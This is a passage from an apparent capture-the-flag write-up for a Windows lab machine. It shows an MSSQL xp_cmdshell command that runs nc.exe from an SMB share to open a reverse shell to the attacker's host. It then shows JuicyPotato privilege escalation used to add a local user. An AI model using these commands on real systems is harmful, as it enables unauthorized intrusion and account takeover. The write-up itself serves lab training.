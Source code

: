 > **Attacker Machine**:

```bash
locate nc.exe | grep usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
sudo impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443

  EXEC master..xp_cmdshell '\\10.10.14.84\smbFolder\nc.exe -e cmd 10.10.14.84 443'      # :)
```

> **Victime Machine**:

```cmd
type todo.txt
type "note to tim (draft).txt"
# ...disallowed any cmd.exe outside the Windows folder from executing...
whoami /priv
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
whoami /all
```

<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To escalate privileges I need the `JuicyPotato.exe` binary from **ohpe**, which is available on their **[Github](https://github.com/ohpe/juicy-potato){:target="_blank"}**. I download it and then transfer it to the target machine, I run the binary and it works correctly, now that I know a little bit one of the methods to escalate I perform the first step which is to **create a new account**, but it does not work because my password does not comply with the security policies. Once I correct this error I see with `net` that the account was created successfully.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
.\JP.exe
.\JP.Exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123 /add"
net user
# ??        Week password?

.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldboy oldb0y123!$ /add"
net user
# :)
```
